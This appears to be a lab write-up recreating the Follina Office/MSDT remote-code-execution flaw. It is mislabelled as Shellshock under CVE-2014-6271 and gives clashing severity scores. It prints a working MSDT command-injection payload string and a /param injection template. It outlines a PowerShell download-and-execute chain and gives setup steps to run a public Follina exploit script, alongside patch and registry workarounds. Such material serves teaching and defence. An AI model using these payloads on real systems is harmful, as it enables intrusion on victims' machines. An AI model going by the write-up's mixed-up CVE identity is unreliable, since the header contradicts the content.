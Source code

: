 # CVE Recreation: Shellshock (CVE-2014-6271)

### Details

CVE ID: <br>
**CVE-2014-6271**

Vulnerability Name: <br>
**Follina**

Vulnerable Software: <br>
**Microsoft Office (Word, Excel, other apps using MSHTML and MSDT) – versions prior to June 2022 patch**

Vulnerability Type: <br>
**Remote Code Execution (via MSDT protocol abuse)**

Severity: <br>
**7.8 CVSS v3 (High), 9.8 CVSS v3 (Critical)**

---

### Summary

Follina is a remote code execution vulnerability in Microsoft Office’s handling of the ms-msdt protocol. An attacker can craft a malicious Office document that references a remote HTML file, which then calls ms-msdt: with parameters causing the Microsoft Support Diagnostic Tool (MSDT) to execute arbitrary code.

This flaw is dangerous because:

- No macros are required, even security settings that block macros won’t help.
- Code execution can occur just by opening the document, and sometimes even via the preview pane in Explorer.
- It works even if Protected View is enabled, because ms-msdt calls are handled outside the usual macro execution flow.

---

### Example of the Vulnerability

1. Attacker crafts a `.docx` file containing a link to a malicious HTML payload hosted remotely.
2. The HTML contains a link using the ms-msdt protocol:
```bash
ms-msdt:/id PCWDiagnostic /skip force /param ...
```
3. When the victim opens the document, Office retrieves the HTML and automatically invokes MSDT.
4. MSDT then exploits the `IT_BrowseForFile` parameter to inject an obfuscated PowerShell command. This command is embedded as a base64-encoded string, which gets decoded and executed by MSDT when the victim opens the document. The decoded command eventually executes `mpsigstub.exe` (or any other executable specified by the attacker), leading to code execution on the victim's machine:
```powershell
\"IT_RebrowseForFile=? IT_LaunchMethod=ContextMenu IT_BrowseForFile=$(Invoke-Expression($(Invoke-Expression('[System.Text.Encoding]'+[char]58+[char]58+'UTF8.GetString([System.Convert]'+[char]58+[char]58+'FromBase64String('+[char]34+'bm90ZXBhZA=='+[char]34+'))'))))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe\"
```
5. The attacker gains code execution on the victim machine without user consent.

---

### How it works

**Step 1 – Office loads external content**

The .docx file is actually a ZIP containing XML files. One of these XML files can point to an external resource (the attacker’s HTML) through a target attribute.

<br>

**Step 2 – HTML uses ms-msdt**

When Office loads the HTML, the browser-like MSHTML engine processes it. If the HTML contains a ms-msdt: link, Windows recognizes it as a registered protocol and launches the Microsoft Support Diagnostic Tool.

<br>

**Step 3 – MSDT command injection**

MSDT accepts parameters like /id and /param. The vulnerability is that these parameters can be crafted so that a command injection occurs — for example, passing something like:
```bash
/param "IT_BrowseForFile=$(Invoke-Expression('malicious PowerShell here'))"
```

This causes MSDT to run arbitrary PowerShell code.

<br>

**Step 4 – Payload execution**

The PowerShell payload can:
- Download a file (Invoke-WebRequest)
- Save it to disk
- Execute it (Start-Process)
  
This effectively gives the attacker remote code execution with the same privileges as the victim.

---

### CVE Recreation

#### Setup

- [Windows 10 (Build 19044.1288)](https://os.click/en/Windows:Windows_10:2021_LTSC:19044.1288:Enterprise:en-us:x86) and Kali Linux in VirtualBox
- Download Office2013 32-bit on the Windows 10 machine using Powershell (Administrator):
  
  `bitsadmin /TRANSFER O13DL /DOWNLOAD /PRIORITY high https://ia803209.us.archive.org/29/items/microsoft-office-2013-pro-plus-sp-1-english-32-bit_202005/Microsoft-Office-2013-Pro-Plus-SP1-English-32Bit.zip C:\office32.zip`
- Install Office2013
- On Kali Linux, install python3 and download follina.py:

  `sudo apt install python3 git`
  
  `git clone https://github.com/JohnHammond/msdt-follina`
- Run follina.py script (Examples: `python3 follina.py`, `python3 follina.py -c "notepad"`, `python3 follina.py -r 9001`. More details [here](https://github.com/JohnHammond/msdt-follina))

---

### Patch & Mitigation

- Microsoft Patch:
  
  Released in June 2022. Updates MSHTML and MSDT handling in Office so that ms-msdt calls are blocked by default.

- Workarounds (pre-patch):

  a. Backup and disable the MSDT URL protocol handler using Command Prompt as Administrator:

  ```cmd
  reg export HKEYCLASSES_ROOT\ms-msdt _filename
  reg delete HKEY_CLASSES_ROOT\ms-msdt /f
  ```

  b. Use Protected View and avoid opening files from untrusted sources.

  c. Block outbound access to attacker-controlled domains.

---

### Reflection

Follina showed that non-macro-based Office exploitation can be just as dangerous as macro-based attacks. It highlighted how little-known Windows features like MSDT can be leveraged for code execution when combined with Office’s content-fetching capabilities.

For defenders, the takeaway is that patching and attack surface reduction are critical, relying on macro blocking alone is insufficient. For attackers, Follina was a reminder that “living off the land” (using built-in tools like MSDT, PowerShell) is an effective way to evade detection.
